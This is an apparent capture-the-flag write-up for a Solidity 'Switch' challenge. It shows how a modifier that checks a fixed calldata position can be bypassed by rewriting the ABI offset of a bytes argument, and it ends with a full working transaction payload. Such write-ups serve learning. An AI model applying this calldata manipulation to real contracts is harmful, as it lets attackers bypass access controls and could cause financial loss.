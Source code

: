 # Answer

Goal: Set `switchOn` value to true in `Switch` contract instance.

## 1. Understanding data flow

The contract has only one accessible function `flipSwitch` and the main challenge is to both call the function we desire `turnSwitchOn()` and satisfy the modifier `onlyOff`. After analysing `onlyOff` modifier it's clear that it does not adapt to `calldata` size and simply checks a 4 byte sequence at 68 byte position. As long as that specific byte sequence piece matches expected `offSelector` value it will let the function pass.

## 2. Crafting bytes _data

To workaround `onlyOff` modifier we look at how bytes type arguments are encoded. And they follow this structure:

```
0000000000000000000000000000000000000000000000000000000000000020 // offset (bytes)
0000000000000000000000000000000000000000000000000000000000000004 // length (bytes)
4242424200000000000000000000000000000000000000000000000000000000 // data
```

And the modifier specifically only checks the location of `42424242` values. The goal is to separate the actual `_data` (function selector) passed to `address(this).call(_data)` and the bytes checked by `onlyOff`. And this can be done by manipulating the encoding (specifically bytes offset value) as follows:

```
0000000000000000000000000000000000000000000000000000000000000060 // offset (bytes - notice the increase)
0000000000000000000000000000000000000000000000000000000000000000 // padding (values don't matter)
20606e1500000000000000000000000000000000000000000000000000000000 // <-- onlyOff checked bytes (turnSwitchOff selector)
0000000000000000000000000000000000000000000000000000000000000004 // length (bytes) <-- actual bytes _data start
76227e1200000000000000000000000000000000000000000000000000000000 // <-- turnSwitchOn function selector
```

## 3. Send transaction

Now all that is left is to craft the transaction:

```javascript
sendTransaction({
  from: player,
  to: contract.address,
  data: '0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000',
})
```

et voilà the switch is on.
